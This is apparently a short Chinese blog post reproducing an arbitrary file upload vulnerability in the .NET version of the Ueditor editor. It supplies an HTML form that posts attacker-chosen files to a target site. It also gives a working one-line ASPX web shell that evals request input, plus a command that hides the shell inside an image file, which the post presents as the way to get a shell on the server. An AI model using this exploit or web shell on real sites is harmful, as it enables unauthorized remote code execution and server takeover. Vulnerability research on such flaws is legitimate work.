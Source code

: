 ```yaml
---
layout: post
title: Ueditor 漏洞整理
date: 2022-8-24
categories: blog
tags: [漏洞复现,Ueditor]
description: Ueditor


---
```

### Ueditor .net版本任意文件上传'

**漏洞原理**
Ueditor中获取图片资源时仅检查ContentType,可造成任意文件上传

**漏洞复现**
利用post直接上传文件到目标网站

```html
<form action="目标站点" enctype="multipart/form-data" method="POST">
 
 <p>shell addr: <input type="text" name="source[]" /></p>
  
 <input type="submit" value="Submit" />
  
</form>
```

以上代码保存为html直接执行，绕过保护机制上传php木马和aspx图片马进行getshell

**ContentType绕过**

1.aspx图片马


```shell
#aspx一句话
<%@ Page Language="Jscript"%><%eval(Request.Item["zhanan"],"unsafe");%>

#命令行合成图片马
copy 1.jpg/b + 2.aspx 3.aspx
```

